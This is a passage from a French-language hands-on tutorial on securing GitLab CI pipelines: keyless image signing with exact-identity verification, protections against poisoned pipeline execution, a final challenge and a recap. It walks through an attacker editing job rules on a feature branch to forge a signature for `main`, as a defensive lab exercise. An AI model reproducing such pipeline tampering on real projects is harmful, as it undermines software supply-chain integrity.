Un attaquant qui pousse sur `feature/ppe` peut-il signer une image piégée et la faire passer pour
une image de `main` ? Il lui suffirait de supprimer la règle `rules:` du job `sign-image` dans sa
branche.

Essayez : dans `feature/ppe`, **remplacez** la ligne `- if: $CI_COMMIT_BRANCH == $CI_DEFAULT_BRANCH`
par `- when: on_success`, dans `sign-image` et dans `verify-image`, sans changer `SIGNER_IDENTITY`.
(Si vous supprimiez simplement la ligne, il ne resterait que la règle `*no-schedule`, qui ne
« laisse passer » aucun cas : les deux jobs disparaîtraient du pipeline.) La signature **réussit**, car le
job reçoit bien un jeton OIDC. Mais `verify-image` **échoue** : le certificat délivré par Fulcio
porte l'identité `...//.gitlab-ci.yml@refs/heads/feature/ppe`, et non `@refs/heads/main`.
L'attaquant peut produire une signature, mais pas une signature **au nom de `main`**. C'est pour
cela que la vérification doit toujours exiger l'identité exacte, et pas seulement « une signature
valide ».

### 13.4 Se protéger

Aucune mesure ne suffit seule. Chaque protection ferme une partie du problème :

| Mesure | Ce qu'elle empêche | Où la configurer |
|---|---|---|
| **Variables protégées** (+ masquées, voire *hidden*) | lecture des secrets depuis une branche quelconque (13.2) | Settings > CI/CD > Variables |
| **Branches et tags protégés** (`main` : merge par les Maintainers uniquement, push interdit) | qu'un développeur seul fasse tourner du code sur la branche qui a accès aux secrets | Settings > Repository > Protected branches |
| **CODEOWNERS** sur `.gitlab-ci.yml`, `Dockerfile`, `package.json`, `policy/` | une modification de ces fichiers sans relecture par les bonnes personnes (D-PPE *et* I-PPE) | fichier `CODEOWNERS`. ⚠️ Fonctionnalité **GitLab Premium** : en Free, le fichier est ignoré (préparez-le quand même, c'est la pratique standard en entreprise) |
| **Pipeline défini dans un autre projet** | modifier le pipeline depuis le dépôt applicatif (D-PPE) | Settings > CI/CD > General pipelines > *CI/CD configuration file* = `.gitlab-ci.yml@groupe/ci-config` |
| **`npm ci --ignore-scripts`** | l'exécution des `postinstall` des dépendances (type Shai-Hulud) | `build-app` |
| **Images et `include:` épinglés par digest ou SHA** | un outil ou un modèle modifié en amont (étape 12) | `.gitlab-ci.yml` |
| **Signature uniquement sur branche protégée + vérification de l'identité exacte** | faire passer une image de branche pour une image de `main` (13.3) | `sign-image`, `verify-image` |
| **Portée du `CI_JOB_TOKEN`** (liste blanche) | qu'un job d'un autre projet utilise son jeton pour lire le vôtre | Settings > CI/CD > Job token permissions |
| **Runners protégés** pour les jobs sensibles, pas de `privileged` sur un runner partagé que vous administrez | qu'un job de branche quelconque obtienne un conteneur privilégié (dind) sur la machine qui signe et déploie | Settings > CI/CD > Runners (*Protected*) |
| **Pipelines de fork** exécutés dans le projet du fork (comportement par défaut) | l'accès d'un inconnu à vos secrets (3PE) | ne lancez « *Run pipeline in parent project* » qu'après relecture |

🚧 **À vous de jouer** (sans code à trous, aidez-vous de la documentation) :

1. Ajoutez `--ignore-scripts` au `npm ci` de `build-app`, et vérifiez que `unit-test-job` reste vert.
2. Créez un fichier `CODEOWNERS` à la racine qui confie `.gitlab-ci.yml`, `Dockerfile*`, `package.json`, `package-lock.json` et `policy/` à votre propre compte (ou au compte formateur). La syntaxe est une ligne par chemin : `/package.json @votre-compte`.
3. Protégez `main` **en dernier** : seuls les Maintainers peuvent merger, personne ne peut pousser directement. À partir de là, toute modification de `main` passe par une merge request.
4. Rejouez la manip 13.2 depuis `feature/ppe`, cette fois via une **merge request** vers `main`. Résultat attendu : le pipeline de la MR affiche toujours `leak: ` **vide** (la variable est protégée et la MR vient d'une branche non protégée) ; la MR ne peut être mergée que par un Maintainer, qui voit la modification suspecte de `package.json` dans l'onglet *Changes* ; en Premium, elle exigerait en plus l'approbation du code owner.

**Ménage :** fermez la merge request, supprimez la branche `feature/ppe` et la variable `DEMO_SECRET`.

> 📖 [GitLab : variables protégées](https://docs.gitlab.com/ci/variables/#protect-a-cicd-variable) · [branches protégées](https://docs.gitlab.com/user/project/repository/branches/protected/) · [CODEOWNERS](https://docs.gitlab.com/user/project/codeowners/) · [fichier CI dans un autre projet](https://docs.gitlab.com/ci/pipelines/settings/#specify-a-custom-cicd-configuration-file) · [portée du job token](https://docs.gitlab.com/ci/jobs/ci_job_token/#control-job-token-access-to-your-project) · [runners protégés](https://docs.gitlab.com/ci/runners/configure_runners/#prevent-runners-from-revealing-sensitive-information) · [sécurité des pipelines GitLab](https://docs.gitlab.com/ci/pipeline_security/)

> 🏢 **En entreprise**, on complète souvent ce dispositif avec des **pipeline execution policies**
> (GitLab Ultimate). Elles imposent des jobs de sécurité (scans, signature) que les équipes ne
> peuvent pas retirer de leur `.gitlab-ci.yml`. Côté déploiement, un contrôleur d'admission
> Kubernetes ([Kyverno](https://kyverno.io/docs/writing-policies/verify-images/sigstore/) ou le
> [policy-controller de Sigstore](https://docs.sigstore.dev/policy-controller/overview/)) refuse
> tout pod dont l'image n'est pas signée par l'identité attendue. C'est l'équivalent de votre job
> `verify-image`, mais appliqué au moment où le pod démarre.

---

## 🎉 Challenge final

- [ ] Sur `main`, `sign-image` signe l'image et attache deux attestations (SBOM CycloneDX + provenance SLSA v1).
- [ ] `verify-image` vérifie la signature et les deux attestations, avec l'**identité exacte** et la politique Rego.
- [ ] La manip de substitution (10.5) donne `no signatures found`, et une politique modifiée fait échouer `verify-image`.
- [ ] `osv-sbom` n'exécute OSV-Scanner qu'après `PASSED: SLSA verification passed`, et refuse un binaire altéré.
- [ ] Plus aucune image en `:latest` ou `edge` ; les images principales sont épinglées par digest.
- [ ] La fuite du secret « masqué » (13.2) a été reproduite, puis bloquée par la protection de la variable.
- [ ] `main` est protégée, `CODEOWNERS` couvre les fichiers sensibles, `npm ci --ignore-scripts` est en place.

## ✅ Bonus

- **Attester le scan lui-même** : `cosign attest --type vuln --predicate grype.json` (le format attendu est décrit dans la [spécification cosign vuln](https://github.com/sigstore/cosign/blob/main/specs/COSIGN_VULN_ATTESTATION_SPEC.md)). Vous prouvez ainsi *quand* et *avec quel résultat* l'image a été scannée.
- **VEX** : rédigez un document [OpenVEX](https://github.com/openvex/spec) qui déclare une CVE Debian *non applicable* à votre application, puis passez-le à Grype avec `--vex`. Observez la vulnérabilité disparaître du rapport.
- **Secret detection** : ajoutez le modèle GitLab `Jobs/Secret-Detection.gitlab-ci.yml` (gratuit), et vérifiez qu'il signale un faux jeton `glpat-...` commité dans une branche.
- **SLSA L3 natif** : si vous avez accès à GitLab Ultimate, testez les [attestations SLSA L3](https://docs.gitlab.com/ci/pipeline_security/slsa/level_3/) et comparez `glab attestation verify` avec votre `verify-image`.

## Récap

| Notion | À retenir |
|---|---|
| Signature keyless | Pas de clé à gérer : l'identité du **job** (OIDC), certifiée 10 minutes par Fulcio et inscrite dans Rekor. On vérifie **l'identité exacte** (projet + fichier CI + ref). |
| Attestation | Une affirmation signée **à propos d'un digest** : SBOM, provenance, résultat de scan. Elle voyage avec l'image dans le registry. |
| Provenance SLSA | Qui, quoi, comment. Notre provenance « maison » ≈ L2 ; le L3 exige un générateur hors de portée des jobs (GitLab Ultimate expérimental, GitHub `slsa-github-generator`). |
| `slsa-verifier` | Vérifie, côté **consommateur**, qu'un binaire correspond à une provenance SLSA (dépôt, tag, hash). Le premier maillon se vérifie par empreinte. |
| Épinglage | Tag + digest, mises à jour par Renovate, délai de carence. |
| PPE | Le pipeline exécute le dépôt : protéger les **secrets** (variables protégées), les **branches**, les **fichiers exécutés** (CODEOWNERS, `--ignore-scripts`) et les **identités** (signature sur `main` uniquement). |
